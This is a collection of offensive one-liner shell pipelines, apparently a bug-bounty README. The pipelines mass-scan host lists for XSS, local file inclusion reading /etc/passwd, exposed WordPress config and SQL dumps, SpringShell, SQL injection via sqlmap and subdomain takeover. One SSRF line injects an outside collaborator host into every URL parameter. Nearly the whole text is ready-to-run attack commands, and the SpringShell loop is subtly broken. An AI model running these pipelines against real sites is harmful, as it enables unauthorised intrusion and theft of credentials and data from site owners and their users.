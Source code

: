 # Oneliners

### XSS from waybackurls and qsreplace
`echo https://target.com
 | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq`

### Local File Inclusion using httpx
`cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "///////../../../etc/passwd" -mr "root:x" | anew lfi-httpx.txt`

### Wordpress Wp-content mysql.sql
`cat hosts.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew wp-sql.txt`

### CVE-2022-22963 SpringShell (400 Code --> Vulnerability)
`for host in hosts.txt; do curl $host:port/path?class.module.classLoader.URLs%5B0%5D=0; done`

### SSRF using dnsx, httpx, gau and qsreplace
`cat subdomains.txt | dnsx | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://hacker.burpcollaborator.net`

### SQLi using dnsx, httpx, xargs, findomain, waybackurls, gf, sqlmap
`httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'`

### Local File Inclusion using Gau, gf, xargs
`cat sudomains.txt | httpx -silent -threads 500 | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%"  2>&1 | grep -q "  root:x" && echo " VULN! %"'`

### CVE-2021-41277 Local File Inclusion in Metabase
cat live.txt | while read host do;do curl --silent --insecure --path-as-is "$host/api/geojson?url=file:///etc/passwd" | grep -qs "root:x" && echo "$host Vulnerable";done

### XSS using airixss, waybackurls, gf, uro, httpx, qsreplace
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"

### Company Sensitive Data using gau
`cat subdomains.txt | gau | tee gau.txt | grep -E
"\\.xls|\\.xlsx|\\.json|\\.pdf|\\.sql|\\.doc|\\.docx|\\.pptx|\\.mp3|\\.mp4|\\.zip|\\.tar|\\.gzip|\\.rar|\\.json"
| tee sensitive-files.txt`


### Generate Target Based Wordlist with gau and unfurl
`cat subdomains.txt | gau | unfurl paths | rev | cut -d '/' -f1 | rev | sort -u | tee wordlist.txt`

### /api/geojson target IP ranges LFI
`cat subdomains.txt | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "/api/geojson?url=file:///etc/passwd" -mr "root:x" | anew geojson-lfi.txt`

### Nginx Path Traversal
`cat subdomains.txt | httpx -silent -path "///////../../../../../../etc/passwd" -sc -mc 200 -mr 'root:x' | anew nginx-traversal.txt`

### wp-config.php_orig using httpx
`cat subdomains.txt | httpx -silent -sc -mc 200 -path "/wp-config.php_org" -mr "DB_PASSWORD" | anew wp-config.php_orig`

### Create your own wordlist from @0xJin
`cat domains.txt | httpx | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a wordlist.txt`

### Subdomain Takeover
`cat domains.txt | assetfinder --subs-only | tee subdomains.txt; subjack -w
subdomains.txt -ssl -t 100 | tee -a takeover.txt | grep -v "Vulnerable"`
